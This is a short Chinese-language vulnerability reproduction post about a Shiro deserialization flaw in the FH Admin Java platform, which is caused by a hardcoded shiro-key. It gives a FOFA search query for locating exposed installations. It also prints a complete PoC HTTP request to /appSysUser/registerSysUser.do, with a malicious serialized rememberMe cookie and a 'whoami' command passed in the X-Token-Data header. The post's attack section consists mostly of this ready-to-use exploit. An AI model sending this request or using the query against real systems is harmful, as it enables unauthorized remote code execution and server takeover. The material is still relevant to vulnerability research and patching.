

# FH Admin Shiro反序列化漏洞复现

### 0x01 产品简介

  FH Admin 是一款 java [快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)。

### 0x02 漏洞概述

 FH Admin CMS 存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：app="FH-Admin"



### 0x04 漏洞复现 

PoC

```cobol
GET /appSysUser/registerSysUser.do HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
X-Token-Data: whoami
Cookie: rememberMe=RjI4NWNFQzBDZTVGNWNBM6ByNoG5jvpzbQqTkz2zP8GLkE05HSQI3cfp4VAgaPDcrRrjkpJu9jMhqPwCVC7PctiZQKqpVMs1MpWDU+QNSulwceEdncBKO8H/3euOC5R6IBRFUreexKBsk+q2p7+J2TyahI2qYdizpzKnXhigkLx8wSmLCPHjJN/Mnhd3mepbIPPthxHC3BHq5+hda3bKpoEr4dv2jKzCJj3h+8skALnTGmbUyoWmobwsTLoBkI6G/MsFi3oiXxzzc+kE
```
